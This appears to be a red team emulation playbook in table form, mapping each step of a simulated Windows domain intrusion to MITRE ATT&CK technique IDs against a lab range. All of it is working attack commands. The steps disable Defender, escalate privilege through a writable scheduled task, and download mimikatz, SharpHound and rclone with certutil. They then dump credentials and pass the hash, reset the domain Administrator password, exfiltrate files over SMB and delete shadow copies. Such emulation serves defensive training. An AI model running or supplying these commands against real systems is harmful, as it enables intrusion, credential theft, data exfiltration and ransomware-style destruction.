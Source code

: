 # Red Team Emulation Reference

## Part 1
| Step | Action | ATT&CK Techniques | Blue Verification |
|--------|-------------------------------------------------------------------------|----------------|-----------------------------------------------------------|
|1.1 | `nmap -Pn -p 22,445,636,3389 --open 10.0.1.0/24` | T1595, T1003|
|1.2 | `xfreerdp /u:PurpleUser /p:SecurePwd123 /v:10.0.1.15 /cert-ignore` | T1021.001, T1078|
|1.3 | `whoami /all systeminfo` | T1033, T1082, T1059.001<br>(PowerShell T1059.001 will not be mentioned after that every time it is used)|
|1.4 | `quser` | T1033, T1082|
|1.5 | `net localgroup administrators`| T1069.001|
|1.6 | `Get-Process \| Select -Unique ProcessName` | T1057|
|1.7 | `Get-MpComputerStatus` | ? ||
|1.8 | `Get-ScheduledTask \| where {$_.TaskPath -notlike "*Microsoft*" }` | T1053.001|
|1.9 | `schtasks /query /fo LIST /v /tn UpdateTask` | T1053.001|
|1.10 | `icacls C:\Update.ps1` | T1222.001|
|1.11 | `"net localgroup administrators PurpleUser /add" \| Out-File -Append C:\Update.ps1` | T1078.003|
|1.12 | `net localgroup administrators` | T1069.001|
|1.13 | `whoami /all` | T1033|
|1.14 | `Set-MpPreference -DisableRealtimeMonitoring 1`<br>`Set-MpPreference -DisableBehaviorMonitoring 1`<br>`Set-MpPreference -DisableScriptScanning 1`<br>`Set-MpPreference -DisableBlockAtFirstSeen 1` | T1562.001|
|1.15 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe` | T1105|
|1.16 | `C:\temp\m.exe`<br>`privilege::debug`<br>`sekurlsa::logonpasswords` | T1003.001|

## Part 2

| Step | Action | ATT&CK Techniques | Blue Verification |
|--------|-------------------------------------------------------------------------|----------------|-----------------------------------------------------------|
|2.1 | `[ITSERVER:mimikatz] sekurlsa::pth /user:billh /ntlm:<NTLM-hash> /domain:attackrange /run:powershell` | T1550.002|
|2.2 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/SharpHound.exe C:\Temp\sh.exe` | T1105|
|2.3 | `C:\temp\sh.exe --memcache --zipfilename c.zip --outputdirectory C:\temp\` | T1087.001, T1087.002, T1560, T1059.001, T1482, T1615, T1106, T1201, T1069.001, T1069.002, T1018, T1033|
|2.4 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe` | T1105|
|2.5 | `[ss]`<br>`type = smb`<br>`host = 10.0.1.30`<br>`user = user`<br>`pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8` |?|
|2.6 | `C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Temp\<c.zip-filename> ss:data --no-check-dest` | T1048|
|2.7 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/PowerShellActiveDirectory.dll C:\Temp\a.dll Import-Module C:\Temp\a.dll` | T1005|
|2.8 | `Add-ADGroupMember -Identity "ITSupport" -Members "billh"` | T1098.007|
|2.9 | `Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset` | T1098|

## Part 3

| Step | Action | ATT&CK Techniques | Blue Verification |
|--------|-------------------------------------------------------------------------|----------------|-----------------------------------------------------------|
|3.1 | `xfreerdp /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert-ignore` | T1021.001, T1078|
|3.2 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe` | T1105|
|3.3 | `[ss]`<br>`type = smb`<br>`host = 10.0.1.30`<br>`user = user`<br>`pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8` |?|
|3.4 | `Set-MpPreference -DisableRealtimeMonitoring 1` | T1562.001|
|3.5 | `C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest` | T1048|
|3.6 | `rm C:\Users\Administrator\Documents\finance.db`<br>`vssadmin.exe delete shadows /all` | T1490|
